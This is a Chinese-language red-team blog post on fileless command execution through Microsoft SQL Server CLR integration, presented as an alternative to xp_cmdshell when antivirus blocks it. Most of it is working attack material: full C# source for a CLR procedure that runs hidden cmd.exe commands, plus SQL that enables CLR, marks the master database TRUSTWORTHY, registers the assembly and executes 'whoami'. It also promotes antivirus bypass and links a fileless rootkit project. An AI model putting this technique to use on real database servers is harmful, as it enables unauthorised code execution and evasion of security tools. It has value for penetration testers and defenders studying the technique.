 ```yaml
---
title: 利用MSSQL CLR 实现不落地命令执行
date: 2023-02-05
categories: [红蓝对抗]
tags: [红蓝对抗, MSSQL]
---
```


## 0X00 前言 

​	在我们想要通过SQL Server来执行命令的时候，我们通常的做法是通过`xp_cmdshell`和`sp_OACreate`来实现执行命令的需求，然而在某些条件下，我们在利用这两个存储过程的时候经常会遇到被查杀拦截等情况，这些情况导致我们无法达到我们执行的命令的需求，本文将介绍另外一种方法：利用SQL Server CLR来实现不落地执行命令的需求。

## 0X01 什么是CLR

​	CLR是微软的公共语言运行库，是 .NET Framework 的核心，为所有 .NET Framework 代码提供执行环境。 在 CLR 中运行的代码称为托管代码。 CLR 提供执行程序所需的各种函数和服务，包括实时 (JIT) 编译、分配和管理内存、强制类型安全、异常处理、线程管理和安全性。使用在 Microsoft SQL Server 中驻留的 CLR（称为 CLR 集成），可以在托管代码中编写存储过程、触发器、用户定义函数、用户定义类型和用户定义聚合。 由于托管代码在执行之前才编译为本机代码，因此在某些情形下可以大幅提高性能。

## 0X02 基于CLR的恶意dll

示例代码：

```c#
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void ExecCommand (string cmd)
    {
        SqlContext.Pipe.Send("Command is running, please wait.");
        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
    }
    public static string RunCommand(string filename,string arguments)
    {
        var process = new Process();

        process.StartInfo.FileName = filename;
        if (!string.IsNullOrEmpty(arguments))
        {
            process.StartInfo.Arguments = arguments;
        }

        process.StartInfo.CreateNoWindow = true;
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;

        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }

        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();

            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }

            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```

在编译的时候要注意这个地方选择生成`.sql`文件

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/1.png)

同时要将权限级别改为`UNSAFE`，因为我们要调用外部程序，必须设置为`UNSAFE`才可以。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/2.png)

这段代码编译后会产生这几个文件![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/3.png)

我们可以使用SQL Server来引用这个dll文件去执行命令，这种方式这里不加以赘述，这里将讨论无文件落地的命令执行。

## 0X03 无文件落地的命令执行

在SQL Server 2016以后，默认禁用了基于CLR的DLL文件，我们可以通过如下命令解除禁用

```sql
sp_configure 'clr enabled',1
GO
RECONFIGURE
GO
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/4.png)

```sql
ALTER DATABASE master SET TRUSTWORTHY ON;//确认可信任关系
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/5.png)

接下来我们需要用上述目录中生成的`.sql`文件中的一段代码来创建我们的存储过程

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/6.png)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/7.png)

可见成功创建了一个clr的程序集，然后我们使用如下代码创建存储过程

```sql
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR(MAX)
AS EXTERNAL NAME [clr].[StoredProcedures].[ExecCommand]
go
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/8.png)

可见成功创建了存储过程，然后执行命令

```sql
exec dbo.execcommand 'whoami'
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/9.png)

## 0x04 小结

​	CLR的命令执行可以在一些情况下bypass杀软达到我们预期执行命令的需求，笔者在这里只是给出简单的demo代码，具体复杂的实现，读者可以自行研究，或可魔改或可直接使用[这个项目](https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit/)实现其他功能。

### 注：本文仅用于安全研究和学习之用